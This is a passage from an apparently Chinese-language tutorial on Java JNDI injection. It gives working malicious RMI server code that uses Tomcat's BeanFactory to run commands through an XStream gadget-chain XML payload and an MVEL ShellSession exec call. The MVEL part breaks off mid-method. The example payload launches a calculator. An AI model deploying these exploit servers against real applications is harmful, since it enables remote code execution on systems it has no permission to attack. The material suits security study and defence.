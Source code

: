 yaml-payload.jar 可以使用 [artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads](https://github.com/artsploit/yaml-payload) 来生成。

#### XStream
```java
    public static void AttackWithXStream() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
                "  <unserializable-parents/>\n" +
                "  <java.util.PriorityQueue>\n" +
                "    <default>\n" +
                "      <size>2</size>\n" +
                "    </default>\n" +
                "    <int>3</int>\n" +
                "    <dynamic-proxy>\n" +
                "      <interface>java.lang.Comparable</interface>\n" +
                "      <handler class='sun.tracing.NullProvider'>\n" +
                "        <active>true</active>\n" +
                "        <providerType>java.lang.Comparable</providerType>\n" +
                "        <probes>\n" +
                "          <entry>\n" +
                "            <method>\n" +
                "              <class>java.lang.Comparable</class>\n" +
                "              <name>compareTo</name>\n" +
                "              <parameter-types>\n" +
                "                <class>java.lang.Object</class>\n" +
                "              </parameter-types>\n" +
                "            </method>\n" +
                "            <sun.tracing.dtrace.DTraceProbe>\n" +
                "              <proxy class='java.lang.Runtime'/>\n" +
                "              <implementing__method>\n" +
                "                <class>java.lang.Runtime</class>\n" +
                "                <name>exec</name>\n" +
                "                <parameter-types>\n" +
                "                  <class>java.lang.String</class>\n" +
                "                </parameter-types>\n" +
                "              </implementing__method>\n" +
                "            </sun.tracing.dtrace.DTraceProbe>\n" +
                "          </entry>\n" +
                "        </probes>\n" +
                "      </handler>\n" +
                "    </dynamic-proxy>\n" +
                "    <string>mate-calc</string>\n" +
                "  </java.util.PriorityQueue>\n" +
                "</java.util.PriorityQueue>";
        ref.add(new StringRefAddr("forceString", "a=fromXML"));
        ref.add(new StringRefAddr("a", xml));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```
#### MVEL
MVEL（MVFLEX Expression Language）是一个开源的、基于 Java 的表达式语言库。其中 org.mvel2.sh.ShellSession 类的 exec 方法满足条件。
```java
    public static void AttackWithMVEL() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=exec"));
        ref.add(new StringRefAddr("a",
                "push Runtime.getRuntime().exec('mate-calc');"));
```